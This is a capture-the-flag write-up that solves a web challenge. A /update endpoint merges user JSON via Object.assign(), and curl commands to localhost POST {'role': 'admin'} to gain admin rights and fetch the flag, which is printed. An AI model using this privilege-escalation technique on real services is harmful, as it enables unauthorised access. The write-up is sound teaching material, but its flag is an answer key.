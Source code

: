 ## Solution
1. Understand the purpose of the endpoints.
    - `/update` -- Allows the user to modify the `data` object via `Object.assign()`.
    - `/flag` -- Delivers the flag is the data `role` is equal to `admin`.
2. Develop a payload to modify the insecurely configured user data via the `/update` endpoint.
3. Execute the exploit and obtain the flag.

## Proof of Concept

1. Identify object properties
   ```
    curl http://localhost:8081/update
   ```

2. Payload

    ```
    {
        "role": "admin"
    }
    ```

3. Deliver the payload

    ```
    curl -X POST -H \
        "Content-Type: application/json" \
        -d '{"role": "admin"}' \
        http://localhost:8081/update
    ```
4. Get the flag

    ```
    curl http://localhost:8081/flag
    ```

## Flag
- `SIG24{1ns3cur3_3nDp01nt}` (static)
